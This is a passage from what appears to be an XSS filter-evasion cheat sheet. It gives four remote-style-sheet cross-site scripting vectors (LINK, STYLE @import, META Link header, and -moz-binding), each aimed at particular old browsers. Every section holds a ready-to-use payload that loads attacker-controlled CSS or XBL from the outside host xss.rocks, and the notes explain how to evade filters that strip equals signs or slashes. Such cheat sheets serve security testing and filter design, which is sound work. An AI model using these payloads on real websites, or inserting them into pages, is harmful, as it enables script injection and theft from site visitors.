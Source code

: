 (using something as simple as a remote style sheet you can include your
XSS as the style parameter can be redefined using an embedded
expression.) This only works in IE and Netscape 8.1+ in IE rendering
engine mode. Notice that there is nothing on the page to show that there
is included JavaScript. Note: With all of these remote style sheet
examples they use the body tag, so it won't work unless there is some
content on the page other than the vector itself, so you'll need to add
a single letter to the page to make it work if it's an otherwise blank
page:

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

## Remote style sheet part 2

This works the same as above, but uses a

<STYLE>

tag instead of a <LINK> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end

</STYLE>

tag if there is HTML immediately after the vector to close it. This is
useful if you cannot have either an equals sign or a slash in your cross
site scripting attack, which has come up at least once in the real
world:

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky.
According to RFC2616 setting a link header is not part of the HTTP1.1
spec, however some browsers still allow it (like Firefox and Opera). The
trick here is that I am setting a header (which is basically no
different than in the HTTP header saying Link:
\<http://xss.rocks/xss.css\>; REL=stylesheet) and the remote style sheet
with my cross site scripting vector is running the JavaScript, which is
not supported in FireFox:

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL
file to the parent page. I think the irony here is that Netscape assumes
that Gecko is safer and therefor is vulnerable to this for the vast
majority of sites:

`<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

## STYLE tags with broken up JavaScript for XSS
